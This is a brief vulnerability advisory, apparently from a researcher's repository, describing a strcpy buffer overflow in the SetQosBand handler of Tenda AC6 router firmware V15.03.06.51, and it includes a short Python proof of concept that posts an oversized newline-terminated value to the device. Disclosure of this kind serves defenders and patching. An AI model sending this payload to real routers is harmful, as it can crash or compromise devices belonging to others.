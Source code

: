 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/SetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/9.png)

get value from list ,send to setQosMiblist

![](../Tenda_AC10U_V1/10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetQosBand"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'setQosMiblist': payload})
``` 

